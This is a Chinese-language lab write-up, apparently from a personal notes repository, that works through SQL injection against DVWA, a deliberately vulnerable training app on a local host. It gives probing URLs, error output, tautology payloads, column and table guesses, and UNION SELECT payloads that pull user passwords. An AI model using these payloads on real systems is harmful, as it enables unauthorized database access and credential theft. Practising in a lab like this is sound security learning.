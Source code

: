 # SQL Injection

可以發現 URL query string 有可以下手的地方

```bash
http://dvwa.localtest:8086/vulnerabilities/sqli/?id=1&Submit=Submit#
```

### 測試及觀察錯誤訊息

id 第一個數字後面不管接什麼都可以 pass，可能代表 SQL 已經被結尾?

```bash
1zxw1--;
```

```bash
http://dvwa.localtest:8086/vulnerabilities/sqli/?id=1zxw1--;&Submit=Submit#
```

試著送出會讓它噴 error 的內容
從這邊可以觀察出 SQL 會自動幫我們補上哪些 single quote，為了更方便觀察，使用其他符號看看
```bash
http://dvwa.localtest:8086/vulnerabilities/sqli/?id=%271%27&Submit=Submit#
```
---

送出 `@` 方便觀察字串的位置
```bash
http://dvwa.localtest:8086/vulnerabilities/sqli/?id=%271@&Submit=Submit#
```

```bash
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1@'' at line 1
```

---

我們可以在 '1@' 後面的位置繼續補上 OR ‘1’=’1，讓它行成 ‘1’ = ‘1’

```bash
3' OR '1'='1
```

```bash
http://dvwa.localtest:8086/vulnerabilities/sqli/?id=3%27%20OR%20%271%27=%271&Submit=Submit#
```
意味著 SQL 會在前後補上 single quote，因此在第一個 id 後面補上 `'` ，這樣就可以接著第二組的 OR，第2組的條件結尾故意不加上 `'` ，這樣就形成合法的 query 了

```bash
2' OR 1='1 union select * from users;
```

## 取得密碼

### 測試 column names

可以從回傳的狀態和訊息來判斷自己的猜測是否正確

```bash
2' OR user_id='1
```

```bash
# X
1' AND sur_name='admin 
```

```bash
# first_name column ok
1' AND first_name='admin 
```

```bash
# last_name column ok
1' AND last_name='admin
```

```bash
# password column ok
1' AND password<>'0
```
---

### 測試 table name

```bash
2' UNION SELECT user_id,user_id FROM user WHERE user_id='1
```

```bash
Table 'dvwa.user' doesn't exist
```

---

## Done

取得密碼欄位的內容

```bash
1' UNION SELECT first_name,password FROM users WHERE user_id<>'0
```

```bash
1' UNION SELECT first_name,password FROM users WHERE user_id <>'
```

## 心得

隨然 wiki 上有標準答案，盡量試著從黑箱角度去推斷原本的 SQL 可能是怎樣寫的，強化理解
